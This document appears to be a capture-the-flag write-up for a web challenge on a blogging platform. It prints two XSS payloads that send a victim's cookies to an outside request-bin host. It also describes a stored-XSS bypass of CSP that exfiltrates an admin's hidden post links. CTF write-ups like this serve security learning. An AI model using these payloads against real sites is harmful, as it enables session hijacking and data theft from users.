 # fumblr
Web - 275 points

## Challenge 
> Come check out the latest blogging platform all the cool kids are using! I tried my hardest to make it hack-proof. If you can read the admin's hidden posts, I'll even give you a flag!! Good luck!?

> http://c1.easyctf.com:12491/

## Hint
> you wish


## Solution

#### Analysis
The blog will have the following URL format:
	
	http://c1.easyctf.com:12491/blog/<username>

Let's visit the [admin's blog](http://c1.easyctf.com:12491/blog/admin)

![1](screencapture-c1-easyctf-12491-blog-admin-1519008296405.png)
![2](screencapture-c1-easyctf-12491-blog-admin-5a8939362e17442a0090f97c-1518963754679.png)

We need to find that hidden post. The hex string in the URL might be the ID of the post
When trying out, we see that raw HTML placed in the Contents will come out parsed.

![3](screencapture-c1-easyctf-12491-report-1519008324671.png)

We can do some XXS, in which we can make the admin visit via the report page!

#### XSS techniques?

I tried the following with failure...

	<script>document.write('<IMG SRC=\"https://requestb.in/yigfe4yi?cookie=' + document.cookie + ' \"></IMG>');</script>

	<iframe name="iFrameName"></iframe><script>document.getElementsByName('iFrameName')[0].src = "https://requestb.in/yigfe4yi?cookie="+document.cookie;</script>

It seems that the XSS requires the page loaded to be from the same website


#### Recon

Looking through the usernames list, I found another team's blog (username=`zip`) which had the correct answer.
(Sorry for stealing your answer, hehe)

From here: http://c1.easyctf.com:12491/blog/zip/5a8a2c67c412df2a000121f5

	t5
	<script src="http://c1.easyctf.com:12491/blog/zip/5a8a2c59c412df2a000121f3/raw"></script>

And from here: http://c1.easyctf.com:12491/blog/zip/5a8a2c59c412df2a000121f3/raw

	(See answer.js)

Apparently what it does is they placed valid JS such that when loading the raw page, the XSS executes by:
1. copying all the admin's post links
2. posting the contents as a base64 string using `XMLHttpRequest`

With this, we make report the post and the admin will execute one page load...

This posts a link on the blog with the base64 payload

http://c1.easyctf.com:12491/blog/zip/5a8a37a8c412df2a00012263

	$ echo 'aHJlZj0iL2Jsb2cvYWRtaW4vNWE4OWMyMzBjNDEyZGYyYTAwMDExNTYzIj5Zb3VyIGZpcnN0IFBvc3QKaHJlZj0iL2Jsb2cvYWRtaW4vNWE4OWMxNzJjNDEyZGYyYTAwMDExNTU3Ij5JIGhlYXJkIHlvdSYjMzk7cmUgbG9va2luZyBmb3Igc29tZXRoaW5nCmhyZWY9Ii9ibG9nL2FkbWluLzFiNDNjMTgyYzQzNGRmMmE0MzUxMTU2MSIRmxhZwo=' | base64 --decode 

	href="/blog/admin/5a89c230c412df2a00011563">Your first Post
	href="/blog/admin/5a89c172c412df2a00011557">I heard you&#39;re looking for something
	href="/blog/admin/1b43c182c434df2a43511561"?Y

Now, [visit the hidden post](http://c1.easyctf.com:12491/blog/admin/1b43c182c434df2a43511561) and we see the answer...

## Flag
`easyctf{I_th0ght_CSP_m4d3_1t_s3cur3?}`